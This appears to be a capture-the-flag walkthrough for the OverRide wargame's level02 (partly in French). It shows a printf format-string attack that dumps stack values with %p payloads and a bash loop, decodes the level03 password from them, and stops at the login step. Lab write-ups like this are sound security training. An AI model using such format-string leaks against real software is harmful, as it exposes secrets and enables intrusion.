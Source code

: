 # Level02 Walkthrough

## Analyzing the Program with GDB

1. **Whats happening**:  

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: admin
--[ Password: admin
*****************************************
admin does not have access!
```

- We can see a call to the system function, if the password is gud. Address is : 
```bash
(gdb) info address system
Symbol "system" is at 0x4006b0 in a file compiled without debugging.
```
- Exit address : `0x400710`

- Vulnerability here is that `username` is printed with `printf()`. So we can use the `format string attack` what is on the stack, where the password is stored. (like first level of rainfall)

- The /home/users/level03/.pass is on the stack so we can print the stack thanks to the `string format attack`. We can print content. 
```bash
Username: %p %p %p %p %p %p %p %p %p %p
or
Username: %22$p
```

or 

```bash
for(( i = 1; i < 100; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done
```
---

## Running the Program

or after the for loop : 
```bash
[...]
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
[...]
```

- This is a simplified version ; Here is the explanation : 
    - We have a lot of `0x7fffffffe` it means that we are in the stack of the program
    - `0x400730`, `0x400814` et `0x400ac0`are on the typical field of the binary program, probably .text
    - `0x2a2a2a2a2a2a2a2a` valeur de remplissages, magical numbers
    - and there is `0x756e505234376848` which are non-values ASCII in memories

- Values are written upside-down because of endianness : l'architecture utilise le little-endian, ce qui signifie que les octets les moins significatifs sont stockés en premier en mémoire. 

- So now : 
    - `Découper la valeur en blocs de 2 caractères (un octet = 2 caractères hexadécimaux).`
    - `Inverser ces blocs.`
    - `Convertir le tout en ASCII.`

```bash
level02@OverRide:~$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
level02@OverRide:~$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
level02@OverRide:~$ python -c 'print "377a7143574e6758".decode("hex")[::-1]' 
XgNWCqz7
level02@OverRide:~$ python -c 'print "354a35686e475873".decode("hex")[::-1]' 
sXGnh5J5
level02@OverRide:~$ python -c 'print "48336750664b394d".decode("hex")[::-1]' 
M9KfPg3H

Final: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## Moving to level03

1. **Swith User to level03**:
    Run ```su level03```

2. **Authenticate with the Password**:

